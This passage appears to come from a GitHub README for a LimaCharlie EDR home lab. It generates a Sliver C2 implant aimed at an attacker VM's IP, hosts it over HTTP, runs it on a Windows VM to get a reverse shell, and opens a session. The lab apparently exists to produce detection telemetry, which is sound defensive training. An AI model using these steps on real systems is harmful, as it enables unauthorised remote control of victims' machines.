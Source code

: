 1. SSH back into the Ubuntu VM and launch the Sliver C2 server:
<pre>cd /opt/sliver && sliver-server</pre><br/>

<img src="https://github.com/user-attachments/assets/750352d8-6b51-47d6-9822-baca02e1c656" height="80%" width="80%" alt="LimaCharlieEDR_Lab Steps"/> 
<br /><br />

2. Generate a payload from the Sliver interface:
<pre>generate --http [Ubuntu_VM_IP] --save /opt/sliver/payload.exe</pre><br/>

<img src="https://github.com/user-attachments/assets/d26f5e7f-8f3b-4048-82a0-c72105458c24" height="80%" width="80%" alt="LimaCharlieEDR_Lab Steps"/> 
<br /><br />

3. Run the following command to starts an http server to host the payload:
<pre>#Calls a Python interpreter, runs a module as a script (-m), and uses a built-in Python module (part of the standard library) that starts a simple HTTP server (port 80 or 8080)
python3 -m http.server 80</pre><br />

<img src="https://github.com/user-attachments/assets/c575307d-7d6d-4328-8e24-cf400bbcd530" height="50%" width="50%" alt="LimaCharlieEDR_Lab Steps"/> 
<br /><br />

4. From the Windows VM, open any browser and enter in the Ubuntu VM's IP address. Click on the file to execute the payload and establish a reverse shell.

<img src="https://github.com/user-attachments/assets/899bf897-df25-44c5-98af-7aa4001c799b" height="80%" width="80%" alt="LimaCharlieEDR_Lab Steps"/> 
<br /><br />

5. Notice the automatic command changes from the SSH session (Sliver C2).

<img src="https://github.com/user-attachments/assets/5bd7316f-6086-49d0-8b07-83f9cecf45da" height="80%" width="80%" alt="LimaCharlieEDR_Lab Steps"/> 
<br /><br />

6. From the Windows VM, open a CMD window and run the download payload file.

<img src="https://github.com/user-attachments/assets/da118414-0030-4bf0-9ea8-3f756a4cc8ff" height="80%" width="80%" alt="LimaCharlieEDR_Lab Steps"/> 
<br /><br />

7. Back on the Windows VM, notice the reverse shell session succesfully started. Run the sessions command to confirm any other running payload sessions.

<img src="https://github.com/user-attachments/assets/08c1d040-a8af-4614-bd75-f41bff2b9fd8" height="80%" width="80%" alt="LimaCharlieEDR_Lab Steps"/> 
<br /><br />

<img src="https://github.com/user-attachments/assets/b0855928-2659-4e67-858a-d890b7ab56d6" height="80%" width="80%" alt="LimaCharlieEDR_Lab Steps"/> 
<br /><br />

8. Take note of the payload ID and enter it into the Sliver prompt to start an active payload session:
<pre>use [PayloadID]</pre><br />

<img src="https://github.com/user-attachments/assets/3b2b4295-b8c8-42d4-837c-c1b130876d59" height="80%" width="80%" alt="LimaCharlieEDR_Lab Steps"/> 
<br /><br />

9. With a live payload session, run some command to view telemetry data between the victim and attack VM machines (Notice that Sliver cleverly highlights its own process in green and any detected countermeasures (defensive tools) in red):
